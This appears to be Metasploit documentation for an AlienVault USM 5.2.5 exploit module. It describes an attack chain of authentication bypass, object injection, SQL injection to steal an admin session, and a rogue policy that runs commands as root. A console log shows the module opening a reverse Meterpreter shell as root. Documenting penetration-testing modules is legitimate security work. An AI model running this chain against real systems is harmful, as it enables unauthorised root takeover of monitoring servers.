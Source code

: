 ## Vulnerable Application

This module exploits object injection, authentication bypass and ip spoofing vulnerabities all together. Unauthenticated users can execute arbitrary commands under the context of the root user.

By abusing authentication bypass issue on gauge.php lead adversaries to exploit object injection vulnerability
which leads to SQL injection attack that leaks an administrator session token. Attackers can create a rogue
action and policy that enables to execute operating system commands by using captured session token. As a final step,
SSH login attempt with a invalid credentials can trigger a created rogue policy which triggers an action that executes
operating system command with root user privileges.

This module was tested against AlienVault USM 5.2.5.

**Vulnerable Application Installation Steps**

Major version of older releases can be found at following URL.
[http://downloads.eu.alienvault.com/c/download](http://downloads.eu.alienvault.com/c/download)

You can download file named as AlienVault-USM_trial_5.2.5.zip which contains a OVA file.
In order to complete installation phase, you have to apply [https://www.alienvault.com/try-it-free](https://www.alienvault.com/try-it-free) .
Once alienvault sales team validate your information, you will be able to complete the installation with your e-mail adress.

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/linux/http/alienvault_exec 
msf exploit(alienvault_exec) > set RHOST 12.0.0.137
RHOST => 12.0.0.137
msf exploit(alienvault_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(alienvault_exec) > check
[+] 12.0.0.137:443 The target is vulnerable.
msf exploit(alienvault_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4445 
[*] Hijacking administrator session
[+] Admin session token : PHPSESSID=2gbhp8j5f2af0vu5es5t3083q4
[*] Creating rogue action
[+] Action created: aWbhnZFHqYbUbNW
[*] Retrieving rogue action id
[+] Corresponding Action ID found: D62A1D4A6D3AEEA65F99B606B02197A1
[*] Retrieving policy ctx and group values
[+] CTX Value found: 5E22D6A9E79211E6B8E4000C29F647D7
[+] GROUP Value found: 00000000000000000000000000000000
[*] Creating a policy that uses our rogue action
[+] Policy created: ASdKHQOZVONGzfU
[*] Activating the policy
[+] Rogue policy activated
[*] Triggering the policy by performing SSH login attempt
[+] SSH - Failed authentication. That means our policy and action will be trigged..!
[*] Sending stage (38500 bytes) to 12.0.0.137
[*] Meterpreter session 6 opened (12.0.0.1:4445 -> 12.0.0.137:51674) at 2017-01-31 14:13:49 +0300

meterpreter > getuid
Server username: root
meterpreter >
```
